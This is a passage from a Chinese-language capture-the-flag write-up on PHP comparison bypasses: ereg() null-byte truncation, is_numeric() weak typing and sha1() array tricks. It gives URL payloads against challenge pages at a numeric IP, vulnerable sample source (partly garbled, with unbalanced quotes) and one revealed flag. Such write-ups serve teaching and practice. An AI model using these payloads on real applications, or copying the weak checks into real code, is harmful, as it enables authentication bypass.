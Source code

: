 http://123.206.87.240:9009/19.php?password[]=1

思路二：ereg()可以进行%00截断，绕过正则匹配。

payload:?password=1%00--

[http://123.206.87.240:9009/19.php?password=jjjk%00--](http://123.206.87.240:9009/19.php?password=jjjk%00--)

### 6、弱类型整数大小比较绕过

[http://123.206.87.240:9009/22.php](http://123.206.87.240:9009/22.php)

```
$temp = $_GET['password'];
is_numeric($temp)?die("no numeric"):NULL;
if($temp>1336){
echo $flag; 
```

is_numeric(var)检测变量是否为数字或数字字符串，是则返回true，否则返回false。

is_numeric()对于空字符%00，无论%00放在前面还是后面都可以判断为非数值，而空格%20只能放在数值后面，实质上都是弱类型转换。

payload1:?password=1337%00

payload2:?password=1337%20

payload3:?password=1337a

### 7、sha()函数比较绕过

```
<?php
$flag = "flag";
if (isset($_GET['name']) and isset($_GET['password']))
{
var_dump($_GET['name']);
echo "
";
var_dump($_GET['password']);
var_dump(sha1($_GET['name']));
var_dump(sha1($_GET['password']));
if ($_GET['name'] == $_GET['password'])
echo '

Your password can not be your name!';
else if (sha1($_GET['name']) === sha1($_GET['password']))
die('Flag: '.$flag);
else
echo '

Invalid password.
}
else
echo '

Login first!;?>

同md5()一样，sha1()函数也无法处理数组，因此可以构造数组绕过。

http://123.206.87.240:9009/7.php?password[]=1&name[]=2

array(1) { [0]=> string(1) "2" }
array(1) { [0]=> string(1) "1" } NULL NULL Flag: flag{bugku--daimasj-a2}

8、md5加密相等绕过
http://123.206.87.240:9009/13.php

```